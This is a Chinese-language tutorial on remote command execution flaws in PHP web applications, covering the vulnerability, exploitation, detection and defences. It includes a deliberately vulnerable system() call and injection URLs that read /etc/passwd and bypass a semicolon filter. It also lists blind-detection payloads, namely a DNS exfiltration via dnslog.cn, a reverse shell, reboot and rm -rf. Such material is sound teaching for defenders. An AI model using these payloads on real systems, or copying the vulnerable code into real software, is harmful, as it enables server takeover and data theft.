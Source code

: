 # 远程命令执行漏洞

## 1、概述

**定义：** 用户提交的数据被服务器处理引擎当作系统命令语句片段执行。

**分类：** Web通用漏洞

**风险等级：** 严重/高危

**危害：** 可直接控制服务器/可通过提权控制服务器

**别名：** 命令注入/RCE（Remote_Command_Execution）

## 2、漏洞原理+利用

**漏洞示例：** 

```php
<?php print system("uname -".$_GET['a']);?>
```

**漏洞利用：** 

在传入参数后面跟上命令查看passwd文件
`http://xxx.com/rce.php/?a=1 ;cat /etc/passwd`

**常见限制：** 通过限制 ； 来防御    

```php
<?php
if(strstr($_GET['a'],";")){
	die("error");
}
system("uname-".$_GET['a']);
?>
```

**绕过 ：** 管道符/and符`&(%26)`绕过

`http://xxx.com/rce.php/?a=1 | cat /etc/passwd`

`http://xxx.com/rce.php/?a=1%20%26%20cat /etc/passwd`

## 3、漏洞挖掘

**常见位置：** 参数值、Cookie值、X-Forwarded-For、Referer、User-Agent、Host。

> 理论上，命令注入点（注点）存在于HTTP请求的任何位置。

**有回显的命令注入判断：** 

- 通过读取系统中已存在的文件判断 `cat /etc/passwd`
- 使用一些基础命令`whoami`,`ls`......

**无回显命令注入判断：**

- 通过在web目录写入文件然后再访问， 例如： `echo ‘test’ > ‘/var/www/html/1.txt’`
- 使用curl 、DNS解析，例如：`ping ‘whoami’.dnslog.cn`
- SLEEP感知 (SLEEP 3)
- 反弹shell
- reboot
- rm -rf （慎用）

> Tips：优先使用$(xxx) ， 因为在执行过程中其优先级较高。另外 $IFS 相当于Linux shell下的空格字符，例如 cat$IFS/etc/passwd

## 4、漏洞防御

`curl "http://www.aaa.cn/zh/"`

> curl ----命令
>
> “http://www.aaa.cn/zh/” ----参数

**方法一：** 使用硬编码

> 将参数固定，避免直接读取用户提交数据。

**方法二：** 如命令/代码确实需要动态调整，可将内容固定为一个选择列表

> 例如： 1 whoami  2 ipconfig  3 ls 

然后限定用户提交参数为整型（intval强制转换），根据对应关系执行命令/代码具体内容。

**方法三：** 对于内容不固定的可变参数，应当进行严格过滤，过滤方法可参考SQL注入防护策略，将两端使用引号闭合，然后对所有内容进行转意义。

**方法四：** 禁止可变命令

## 5、实验

对应web实验4